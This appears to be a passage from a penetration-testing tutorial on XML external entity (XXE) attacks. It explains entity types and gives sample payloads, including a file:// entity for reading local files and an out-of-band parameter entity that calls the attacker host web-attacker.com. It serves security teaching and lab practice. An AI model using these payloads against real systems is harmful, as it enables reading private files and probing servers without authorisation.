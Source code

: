 `<!DOCTYPE foo [ <!ENTITY myentity "my entity value" > ]>`

This definition means that any usage of the entity reference `&myentity;` within the XML document will be replaced with the defined value: "`my entity value`".

### What are XML external entities? <a id="what-are-xml-external-entities"></a>

XML external entities are a type of custom entity whose definition is located outside of the DTD where they are declared.

The declaration of an external entity uses the `SYSTEM` keyword and must specify a URL from which the value of the entity should be loaded. For example:

`<!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>`

The URL can use the `file://` protocol, and so external entities can be loaded from file. For example:

`<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>`

XML external entities provide the primary means by which [XML external entity attacks](https://portswigger.net/web-security/xxe) arise.

### What are XML Parameter entities?

Sometimes, XXE attacks using regular entities are blocked, due to some input validation by the application or some hardening of the XML parser that is being used. In this situation, you might be able to use XML parameter entities instead. XML parameter entities are a special kind of XML entity which can only be referenced elsewhere within the DTD. For present purposes, you only need to know two things. First, the declaration of an XML parameter entity includes the percent character before the entity name:

`<!ENTITY % myparameterentity "my parameter entity value" >`

And second, parameter entities are referenced using the percent character instead of the usual ampersand: `%myparameterentity;`

This means that you can test for blind XXE using out-of-band detection via XML parameter entities as follows:

`<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>`

This XXE payload declares an XML parameter entity called `xxe` and then uses the entity within the DTD. This will cause a DNS lookup and HTTP request to the attacker's domain, verifying that the attack was successful.

## Main attacks

[Most of these attacks were tasted using the awesome Portswiggers XEE labs: https://portswigger.net/web-security/xxe](https://portswigger.net/web-security/xxe)

### New Entity test

In this attack I'm going to test if a simple new ENTITY declaration is working

```markup
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY toreplace "3"> ]>
<stockCheck>
    <productId>&toreplace;</productId>
    <storeId>1</storeId>
</stockCheck>
```

